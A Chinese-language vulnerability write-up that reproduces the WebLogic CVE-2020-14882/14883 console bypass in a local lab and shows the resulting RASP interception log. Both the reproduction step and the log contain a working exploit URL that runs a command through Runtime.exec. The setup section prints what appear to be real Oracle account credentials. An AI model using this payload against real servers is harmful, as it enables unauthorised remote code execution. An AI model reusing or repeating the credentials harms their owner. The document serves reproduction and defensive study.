


# CVE-2020-14882

## 漏洞简介

2020年10月21日，Oracle官方发布数百个组件的高危漏洞公告。其中组合利用CVE-2020-14882/ CVE-2020-14883可使未经授权的攻击者绕过WebLogic后台登录等限制，最终远程执行代码接管WebLogic服务器，利用难度极低，风险极大。

## 影响版本

目前影响范围波及下面这些WebLogic版本：
Oracle WebLogic Server 14.1.1.0、12.2.1.4、12.2.1.3、12.1.3.0、10.3.6.0 版本


## 漏洞环境

下载 Oracle WebLogic Server 版本14.1.1.0
(Oracle官网登陆账号:1971159263@qq.com 密码:Jia19981203)

[下载地址](https://www.oracle.com/middleware/technologies/fusionmiddleware-downloads.html)



下载完成之后，按照官方的安装步骤进行，整个安装过程大概需要5分钟。


## 漏洞复现

### 启动weblogic



执行`./startWebLogic.sh`

### 发起攻击

在浏览器打开下面链接
```
http://127.0.0.1:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27touch%20/tmp/CVE-2020-14882%27);%22)
```
执行命令：`touch /tmp/CVE-2020-14882`

在/tmp目录下生成 CVE-2020-14882 文件，攻击成功

## RASP防护

RASP截获日志
```json
{
    "protocol":"HTTP/1.1",
    "method":"GET",
    "remoteHost":"localhost",
    "isBlocked":false,
    "requestURI":"/console/images/%252E%252E%252Fconsole.portal",
    "stackTrace":[
        "java.lang.UNIXProcess.<init>(UNIXProcess.java:245)",
        "java.lang.ProcessImpl.start(ProcessImpl.java:134)",
        "java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)",
        "java.lang.Runtime.exec(Runtime.java:621)",
        "java.lang.Runtime.exec(Runtime.java:451)",
        "java.lang.Runtime.exec(Runtime.java:348)",
        "sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)",
        "sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)",
        "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)",
        "java.lang.reflect.Method.invoke(Method.java:498)",
        "com.tangosol.coherence.mvel2.PropertyAccessor.getMethod(PropertyAccessor.java:994)",
        "com.tangosol.coherence.mvel2.PropertyAccessor.getNormal(PropertyAccessor.java:181)",
        "com.tangosol.coherence.mvel2.PropertyAccessor.get(PropertyAccessor.java:145)",
        "com.tangosol.coherence.mvel2.PropertyAccessor.get(PropertyAccessor.java:125)",
        "com.tangosol.coherence.mvel2.ast.ASTNode.getReducedValue(ASTNode.java:187)",
        "com.tangosol.coherence.mvel2.MVELInterpretedRuntime.parseAndExecuteInterpreted(MVELInterpretedRuntime.java:101)",
        "com.tangosol.coherence.mvel2.MVELInterpretedRuntime.parse(MVELInterpretedRuntime.java:47)",
        "com.tangosol.coherence.mvel2.sh.ShellSession._exec(ShellSession.java:171)",
        "com.tangosol.coherence.mvel2.sh.ShellSession.exec(ShellSession.java:463)",
        "com.tangosol.coherence.mvel2.sh.ShellSession.<init>(ShellSession.java:115)",
        "sun.reflect.NativeConstructorAccessorImpl.newInstance0(Native Method)",
        "sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)",
        "sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)",
        "java.lang.reflect.Constructor.newInstance(Constructor.java:423)",
        "com.bea.console.handles.HandleFactory.getHandle(HandleFactory.java:58)",
        "com.bea.console.handles.HandleConverter.convert(HandleConverter.java:50)",
        "org.apache.commons.beanutils.ConvertUtilsBean.convert(ConvertUtilsBean.java:491)",
        "org.apache.commons.beanutils.ConvertUtils.convert(ConvertUtils.java:251)",
        "com.bea.console.utils.HandleUtils.getHandleContextFromRequest(HandleUtils.java:219)",
        "com.bea.console.utils.GeneralBackingFile.getDisplayName(GeneralBackingFile.java:471)",
        "com.bea.console.utils.GeneralBackingFile.localizeTitle(GeneralBackingFile.java:354)",
        "com.bea.console.utils.PortletBackingFile.preRender(PortletBackingFile.java:34)",
        "com.bea.netuix.servlets.controls.Backable$Impl.preRender(Backable.java:191)",
        "com.bea.netuix.servlets.controls.AdministeredBackableControl.preRender(AdministeredBackableControl.java:104)",
        "com.bea.netuix.servlets.controls.window.Window.preRender(Window.java:445)",
        "com.bea.netuix.servlets.controls.portlet.Portlet.preRender(Portlet.java:832)",
        "com.bea.netuix.nf.ControlLifecycle$6.visit(ControlLifecycle.java:428)",
        "com.bea.netuix.nf.ControlTreeWalker.walkRecursivePreRender(ControlTreeWalker.java:727)",
        "com.bea.netuix.nf.ControlTreeWalker.walkRecursivePreRender(ControlTreeWalker.java:739)",
        "com.bea.netuix.nf.ControlTreeWalker.walkRecursivePreRender(ControlTreeWalker.java:739)",
        "com.bea.netuix.nf.ControlTreeWalker.walkRecursivePreRender(ControlTreeWalker.java:739)",
        "com.bea.netuix.nf.ControlTreeWalker.walkRecursivePreRender(ControlTreeWalker.java:739)",
        "com.bea.netuix.nf.ControlTreeWalker.walkRecursivePreRender(ControlTreeWalker.java:739)",
        "com.bea.netuix.nf.ControlTreeWalker.walkRecursivePreRender(ControlTreeWalker.java:739)",
        "com.bea.netuix.nf.ControlTreeWalker.walkRecursivePreRender(ControlTreeWalker.java:739)",
        "com.bea.netuix.nf.ControlTreeWalker.walkRecursivePreRender(ControlTreeWalker.java:739)",
        "com.bea.netuix.nf.ControlTreeWalker.walkRecursivePreRender(ControlTreeWalker.java:739)",
        "com.bea.netuix.nf.ControlTreeWalker.walkRecursivePreRender(ControlTreeWalker.java:739)",
        "com.bea.netuix.nf.ControlTreeWalker.walkRecursivePreRender(ControlTreeWalker.java:739)",
        "com.bea.netuix.nf.ControlTreeWalker.walkRecursivePreRender(ControlTreeWalker.java:739)",
        "com.bea.netuix.nf.ControlTreeWalker.walkRecursivePreRender(ControlTreeWalker.java:739)",
        "com.bea.netuix.nf.ControlTreeWalker.walkRecursivePreRender(ControlTreeWalker.java:739)",
        "com.bea.netuix.nf.ControlTreeWalker.walkRecursivePreRender(ControlTreeWalker.java:739)",
        "com.bea.netuix.nf.ControlTreeWalker.walkRecursivePreRender(ControlTreeWalker.java:739)",
        "com.bea.netuix.nf.ControlTreeWalker.walk(ControlTreeWalker.java:146)",
        "com.bea.netuix.nf.Lifecycle.processLifecycles(Lifecycle.java:399)",
        "com.bea.netuix.nf.Lifecycle.processLifecycles(Lifecycle.java:361)",
        "com.bea.netuix.nf.Lifecycle.runOutbound(Lifecycle.java:208)",
        "com.bea.netuix.nf.Lifecycle.run(Lifecycle.java:162)",
        "com.bea.netuix.servlets.manager.UIServlet.runLifecycle(UIServlet.java:465)",
        "com.bea.netuix.servlets.manager.UIServlet.doPost(UIServlet.java:291)",
        "com.bea.netuix.servlets.manager.UIServlet.doGet(UIServlet.java:231)",
        "com.bea.netuix.servlets.manager.UIServlet.service.md(UIServlet.java:216)",
        "com.bea.netuix.servlets.manager.SingleFileServlet.service.md(SingleFileServlet.java:275)",
        "javax.servlet.http.HttpServlet.service.md(HttpServlet.java:750)",
        "com.bea.console.utils.MBeanUtilsInitSingleFileServlet.service.md(MBeanUtilsInitSingleFileServlet.java:64)",
        "weblogic.servlet.AsyncInitServlet.service.md(AsyncInitServlet.java:125)",
        "weblogic.servlet.internal.StubSecurityHelper$ServletServiceAction.run(StubSecurityHelper.java:295)",
        "weblogic.servlet.internal.StubSecurityHelper$ServletServiceAction.run(StubSecurityHelper.java:260)",
        "weblogic.servlet.internal.StubSecurityHelper.invokeServlet(StubSecurityHelper.java:137)",
        "weblogic.servlet.internal.ServletStubImpl.execute(ServletStubImpl.java:353)",
        "weblogic.servlet.internal.TailFilter.doFilter(TailFilter.java:25)",
        "weblogic.servlet.internal.FilterChainImpl.doFilter(FilterChainImpl.java:82)",
        "com.bea.console.internal.ParamFilter.doFilter(ParamFilter.java:38)",
        "weblogic.servlet.internal.FilterChainImpl.doFilter(FilterChainImpl.java:82)",
        "weblogic.servlet.internal.RequestEventsFilter.doFilter(RequestEventsFilter.java:32)",
        "weblogic.servlet.internal.FilterChainImpl.doFilter(FilterChainImpl.java:82)",
        "weblogic.servlet.internal.WebAppServletContext$ServletInvocationAction.wrapRun(WebAppServletContext.java:3866)",
        "weblogic.servlet.internal.WebAppServletContext$ServletInvocationAction.run(WebAppServletContext.java:3829)",
        "weblogic.security.acl.internal.AuthenticatedSubject.doAs(AuthenticatedSubject.java:344)",
        "weblogic.security.service.md.SecurityManager.runAsForUserCode(SecurityManager.java:197)",
        "weblogic.servlet.provider.WlsSecurityProvider.runAsForUserCode(WlsSecurityProvider.java:203)",
        "weblogic.servlet.provider.WlsSubjectHandle.run(WlsSubjectHandle.java:71)",
        "weblogic.servlet.internal.WebAppServletContext.processSecuredExecute(WebAppServletContext.java:2502)",
        "weblogic.servlet.internal.WebAppServletContext.doSecuredExecute(WebAppServletContext.java:2351)",
        "weblogic.servlet.internal.WebAppServletContext.securedExecute(WebAppServletContext.java:2326)",
        "weblogic.servlet.internal.WebAppServletContext.execute(WebAppServletContext.java:2304)",
        "weblogic.servlet.internal.ServletRequestImpl.runInternal(ServletRequestImpl.java:1779)",
        "weblogic.servlet.internal.ServletRequestImpl.run(ServletRequestImpl.java:1733)",
        "weblogic.servlet.provider.ContainerSupportProviderImpl$WlsRequestExecutor.run(ContainerSupportProviderImpl.java:272)",
        "weblogic.invocation.ComponentInvocationContextManager._runAs(ComponentInvocationContextManager.java:352)",
        "weblogic.invocation.ComponentInvocationContextManager.runAs(ComponentInvocationContextManager.java:337)",
        "weblogic.work.LivePartitionUtility.doRunWorkUnderContext(LivePartitionUtility.java:57)",
        "weblogic.work.PartitionUtility.runWorkUnderContext(PartitionUtility.java:41)",
        "weblogic.work.SelfTuningWorkManagerImpl.runWorkUnderContext(SelfTuningWorkManagerImpl.java:651)",
        "weblogic.work.ExecuteThread.execute(ExecuteThread.java:420)",
        "weblogic.work.ExecuteThread.run(ExecuteThread.java:360)"
    ],
    "localAddr":"127.0.0.1",
    "parameterMap":{
        "_pageLabel":[
            "HomePage1"
        ],
        "_nfpb":[
            "true"
        ],
        "handle":[
            "com.tangosol.coherence.mvel2.sh.ShellSession(\"java.lang.Runtime.getRuntime().exec('touch /tmp/CVE-2020-14882');\")"
        ]
    },
    "command":"touch /tmp/CVE-2020-14882",
    "remoteAddr":"localhost"
}
```
